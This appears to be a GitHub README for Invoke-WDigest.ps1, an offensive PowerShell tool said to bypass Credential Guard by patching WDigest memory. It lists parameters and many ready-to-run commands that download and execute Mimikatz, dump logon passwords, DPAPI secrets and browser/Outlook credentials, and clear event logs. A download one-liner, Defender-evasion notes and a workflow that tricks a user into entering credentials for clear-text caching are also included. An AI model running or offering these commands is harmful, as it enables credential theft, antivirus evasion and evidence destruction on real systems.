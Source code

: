 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Credits|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|@wh0nsq, @Benjamin_Delpy, @nirsoft|

<br /><br />




|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials |<b><i>[Switch]</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>[Switch]</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|
|BrowserCreds|Switch that dumps installed browers\outlook credentials [clear-text]|<b><i>[Switch]</i></b>|
|Banner|Print Invoke-WDigest cmdlet banner?|<b><i>true</i></b>|
|DebugMe|Switch that prints onscreen cmdlet error messages|<b><i>[Switch]</i></b>|

<br /><br />

**download Invoke-WDigest.ps1**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**Pre-Requesites Checks:**
> **Warning**: Invoke-WDigest.ps1 cmdlet only bypasses Anti-Virus detection if windows defender its the only AV running in target system.
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")
```

<br /><br />

**run cmdlet:**
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi'

# Execute Mimikatz (multiple dump::modules) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::dpapi event::clear exit'

#  Ativate WDigest caching + Exec Mimikatz pre-sellection of dump::modules
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'auto'

# Dump browsers credentials without WDiget catching
.\Invoke-WDigest.ps1 -wdigest 'false' -browsercreds



[WDIGEST MEMORY CATCHING - FAST DEMONSTRATION]

## WDigest caching + dump (-runas) created credential with mimikatz
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
     - [Downside] -runas switch pauses cmdlet execution waiting for credential input.
   - WDigest will store (runas) credential input by user in clear-text in memory
     - [Downside] -runas command (wdigest) only stores 'valid' credentials in-memory.   
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch pauses this cmdlet execution until one credential its inputed,
   then starts cmd.exe with suplied credential in a hidden windows (detach from parent).
   Child process its necessary for mimikatz 'sekurlsa::wdigest' dump the cred from Memory.
```

<br /><br />

<b><i>Execute Mimikatz (interactive shell) without WDigest caching</i></b><br />
![interactive](https://user-images.githubusercontent.com/23490060/219967042-4559b463-5e3e-470d-8ffe-5111eae7f015.png)

<br />

<b><i>WDigest caching + dump (-runas) created credential with mimikatz</i></b><br />
![POC2](https://user-images.githubusercontent.com/23490060/219876558-6f68d5cb-e0b7-4bd2-b6e1-689dd8f62792.png)

![POC3](https://user-images.githubusercontent.com/23490060/219876572-e28d1c22-b6a6-456c-a710-2af8e75f339b.png)

<br />

<b><i>Dump browsers credentials without WDiget catching</i></b><br />
![brcreds](https://user-images.githubusercontent.com/23490060/221413695-a227e1c3-fa2d-43e0-9f50-44b0157a5af0.png)<br />
![outlook](https://user-images.githubusercontent.com/23490060/221729426-e7363d4b-fef1-4155-9383-06bbe1479f00.png)


<br />

<b><i>Invoke-WDigest.ps1 only bypasses mimikatz detection if windows defender its the only AV running in target system</i></b><br />
![kapersky](https://user-images.githubusercontent.com/23490060/221858219-efb0ca86-4222-47af-8827-7923c7f10656.png)


<br />

- [Mimikatz modules list](https://tools.thehacker.recipes/mimikatz/modules)
